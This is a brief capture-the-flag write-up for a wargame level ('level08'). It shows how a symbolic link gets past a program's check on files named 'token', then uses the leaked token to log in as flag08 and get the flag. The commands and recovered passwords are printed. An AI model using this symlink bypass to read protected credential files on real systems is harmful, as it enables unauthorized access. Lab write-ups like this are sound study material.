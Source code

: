 ##### 1 - Analyze content

We can't open directly the token, and the program has a security to prevent opening file called token.

----

##### 2 - Bypass security

Making a symbolic link
``ln -s ~/token /tmp/666``

Getting the token
``./level08 /tmp/666``
>quif5eloekouj29ke0vouxean

----

##### 3 - Getting the flag
``su flag08``
>password : **quif5eloekouj29ke0vouxean**

``etflag``
>Check flag.Here is your token : **25749xKZ8L7DkSCwJkT9dyv6f**
